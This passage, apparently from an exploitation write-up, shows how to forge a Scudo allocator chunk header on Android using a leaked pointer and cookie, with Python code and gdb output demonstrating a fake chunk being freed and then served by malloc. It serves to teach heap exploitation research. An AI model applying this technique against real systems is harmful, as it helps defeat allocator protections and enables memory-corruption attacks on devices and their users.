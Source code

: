 Lets say the first call to this function leaked `pointer = 0x7bac7976f730` and say we somehow got **a** cookie from a previous leak or so, `Cookie = 0x2a7e`. Then we could use the following code to craft the fake header:
```py
combined_header = unpacked_header()
combined_header.ClassId = 1 # Smallest allocation class --> primary, user_data_size=0x10
combined_header.State = 1   # = Allocated --> cannot free a free chunk
combined_header.SizeOrUnusedBytes = 0   # Bypass quarantine (actually irrelevant)
combined_header.OriginOrWasZeroed = 0   # = allocated via malloc
combined_header.Offset = 0  # chunk_start ~= usr_ptr - header_size - offset
combined_header.Checksum = utils.android_crc32(
    cookie, # 0x2a7e
    pointer + 0x10, # buffer = 0x7bac7976f730 => buffer + 0x10 fake user data
    combined_header.pack()  # u64 representation of this header, with checksum=0
)
```
With the above, the header looks like `0x75a5000000000101` (mind little - endian).

If we send `combined_header.bytes() + p64(0) + b'Hello World!` and set a breakpoint right before the call to `free(buffer + 0x10)`, we get:
```
...
gef➤  i r rdi
    rdi            0x7bac7976f740      0x7bac7976f740
gef➤  x/4gx $rdi-0x10
    0x7bac7976f730:	0x75a5000000000101	0x0000000000000000
    0x7bac7976f740:	0x6f57206f6c6c6548	0x0000000021646c72
...
```
Notice that the leaked pointer is `0x7bac7976f730`! So this looks promising! Stepping over `free` will either tell us that we messed up by aborting, or will work and thus our fake chunk is in the primary.

It seems to have worked! The next call is to `malloc(0x10)` (see that the actual chunk size will be `0x20`, if `malloc(0x10)` is called, because [header](https://cs.android.com/android/platform/superproject/+/android-12.0.0_r31:external/scudo/standalone/combined.h;l=337;drc=b45a2ea782074944f79fc388df20b06e01f265f7) and [padding](https://cs.android.com/android/platform/superproject/+/android-12.0.0_r31:external/scudo/standalone/combined.h;l=338;drc=b45a2ea782074944f79fc388df20b06e01f265f7) are also stored). As `combined_header.ClassId = 1`, the chunk that we freed is part of the chunk array that is used to serve `malloc(0x10)` calls! Executing `malloc(0x10)` yields:
```
gef➤  i r edi
    edi            0x10                0x10
gef➤  ni
    ...
gef➤  i r rax
    rax            0x7bac7976f740      0x7bac7976f740
gef➤  x/s $rax
    0x7bac7976f740:	"Hello World!"
```
Remember that we called `free(buffer + 0x10) = free(0x7bac7976f730 + 0x10) = free(0x7bac7976f740)`!

Therefore, not only did we move a chunk of size `0x30` (includes header size `0x10`; remember that `buffer = malloc(BUFFER_SIZE = 0x20)`) to the chunk array that contains chunks of size only `0x20`. But we also served a "preinitialized" chunk. Notice that we basically performed two different things at the same time:
1. Served an *arbitrary* chunk (we will soon see that this cannot be *that arbitrary*...)